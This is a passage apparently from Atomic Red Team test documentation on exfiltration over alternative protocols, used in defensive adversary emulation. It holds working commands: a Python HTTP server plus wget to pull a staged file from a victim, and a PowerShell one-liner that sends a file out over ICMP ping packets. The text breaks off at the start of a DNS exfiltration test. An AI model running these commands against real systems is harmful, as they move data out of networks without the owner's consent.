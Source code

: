 1. Victim System Configuration:

   mkdir /tmp/victim-staging-area
   echo "this file will be exfiltrated" > /tmp/victim-staging-area/victim-file.txt

2. Using Python to establish a one-line HTTP server on victim system:

   cd /tmp/victim-staging-area
   python -m SimpleHTTPServer 1337

3. To retrieve the data from an adversary system:

   wget http://VICTIM_IP:1337/victim-file.txt

<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - ICMP

Exfiltration of specified file over ICMP protocol.

Upon successful execution, powershell will utilize ping (icmp) to exfiltrate notepad.exe to a remote address (default 127.0.0.1). Results will be via stdout.

**Supported Platforms:** Windows

**auto_generated_guid:** dd4b4421-2e25-4593-90ae-7021947ad12e

#### Inputs:

| Name       | Description                                           | Type   | Default Value                               |
| ---------- | ----------------------------------------------------- | ------ | ------------------------------------------- |
| input_file | Path to file to be exfiltrated.                       | path   | C:&#92;Windows&#92;System32&#92;notepad.exe |
| ip_address | Destination IP address where the data should be sent. | string | 127.0.0.1                                   |

#### Attack Commands: Run with `powershell`!

```powershell
$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path #{input_file} -Encoding Byte -ReadCount 1024) { $ping.Send("#{ip_address}", 1500, $Data) }
```

<br/>
<br/>

## Atomic Test #3 - Exfiltration Over Alternative Protocol - DNS

Exfiltration of specified file over DNS protocol.

**Supported Platforms:** Linux

**auto_generated_guid:** c403b5a4-b5fc-49f2-b181-d1c80d27db45

#### Run it with these steps!
